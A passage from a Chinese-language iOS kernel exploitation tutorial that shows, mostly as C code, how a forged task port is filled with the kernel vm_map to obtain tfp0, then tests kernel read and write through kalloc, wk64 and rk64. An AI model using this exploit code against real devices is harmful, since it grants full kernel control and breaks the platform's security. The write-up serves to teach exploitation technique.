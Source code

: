 ```c
printf("[i] kernel_vm_map: 0x%llx\n", kernel_vm_map);
```

把获取到的VM_MAP填充到我们的`Fake Task Port`，一个东拼西凑的TFP0就拿到手了

```c
read(port_fds[0], (void *)fakeport, sizeof(kport_t) + 0x600);

fake_task->lock.data = 0x0;
fake_task->lock.type = 0x22;
fake_task->ref_count = 100;
fake_task->active = 1;
fake_task->map = kernel_vm_map;
*(uint32_t *)((uint64_t)fake_task + koffset(KSTRUCT_OFFSET_TASK_ITK_SELF)) = 1;

if (SMAP) {
    write(port_fds[1], (void *)fakeport, sizeof(kport_t) + 0x600);
}
```

初始化一个全局`tfpzero`变量

```c
static mach_port_t tfpzero;

void init_kernel_memory(mach_port_t tfp0) {
    tfpzero = tfp0;
}

init_kernel_memory(our_port);
```

申请`8`字节内存，写`0x4141414141414141`，再读出来，能成功说明这个`tfpzero`是能用的

```c
uint64_t addr = kalloc(8);
printf("[*] allocated: 0x%llx\n", addr);

wk64(addr, 0x4141414141414141);
uint64_t readb = rk64(addr);
printf("[*] read back: 0x%llx\n", readb);

kfree(addr, 8);
```

这里要补充一点：这里申请的都是内核的空间，内核空间范围如下

```
#define VM_MIN_KERNEL_ADDRESS	((vm_address_t) 0xffffffe000000000ULL)
#define VM_MAX_KERNEL_ADDRESS	((vm_address_t) 0xfffffff3ffffffffULL)
```

这几个`k*()`函数是基于`tfpzero`实现的函数

内存申请函数：`kalloc()`

```c
uint64_t kalloc(vm_size_t size) {
    mach_vm_address_t address = 0;
    mach_vm_allocate(tfpzero, (mach_vm_address_t *)&address, size, VM_FLAGS_ANYWHERE);
    return address;
}
```
